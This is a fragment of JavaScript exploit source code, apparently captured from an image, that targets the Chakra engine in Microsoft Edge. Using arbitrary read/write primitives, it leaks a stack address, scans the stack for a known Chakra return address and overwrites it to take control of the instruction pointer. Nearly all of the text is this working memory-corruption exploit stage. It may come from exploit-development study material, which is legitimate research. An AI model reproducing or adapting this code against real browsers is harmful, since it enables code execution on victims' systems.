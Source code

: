 ```html
    stackleakPointer = read64(threadContext[0]+0x8f8, threadContext[1]);

    // Print update
    document.write("[+] Leaked stack address! type->javascriptLibrary->scriptContext->threadContext->leafInterpreterFrame: 0x" + hex(stackleakPointer[1]) + hex(stackleakPointer[0]));
    document.write("<br>");

    // We can reliably traverse the stack 0x6000 bytes
    // Scan the stack for the return address below
    /*
    0:020> u chakra+0xd4a73
    chakra!Js::JavascriptFunction::CallFunction<1>+0x83:
    00007fff`3a454a73 488b5c2478      mov     rbx,qword ptr [rsp+78h]
    00007fff`3a454a78 4883c440        add     rsp,40h
    00007fff`3a454a7c 5f              pop     rdi
    00007fff`3a454a7d 5e              pop     rsi
    00007fff`3a454a7e 5d              pop     rbp
    00007fff`3a454a7f c3              ret
    */

    // Creating an array to store the return address because read64() returns an array of 2 32-bit values
    var returnAddress = new Uint32Array(0x4);
    returnAddress[0] = chakraLo + 0xd4a73;
    returnAddress[1] = chakraHigh;

	// Counter variable
	let counter = 0x6000;

	// Loop
	while (counter != 0)
	{
	    // Store the contents of the stack
	    tempContents = read64(stackleakPointer[0]+counter, stackleakPointer[1]);

	    // Did we find our target return address?
        if ((tempContents[0] == returnAddress[0]) && (tempContents[1] == returnAddress[1]))
        {
			document.write("[+] Found our return address on the stack!");
            document.write("<br>");
            document.write("[+] Target stack address: 0x" + hex(stackleakPointer[1]) + hex(stackleakPointer[0]+counter));
            document.write("<br>");

            // Break the loop
            break;

        }
        else
        {
        	// Decrement the counter
	    	// This is because the leaked stack address is near the stack base so we need to traverse backwards towards the stack limit
	    	counter -= 0x8;
        }
	}

	// Corrupt the return address to control RIP with 0x4141414141414141
	write64(stackleakPointer[0]+counter, stackleakPointer[1], 0x41414141, 0x41414141);
}
</script>
```
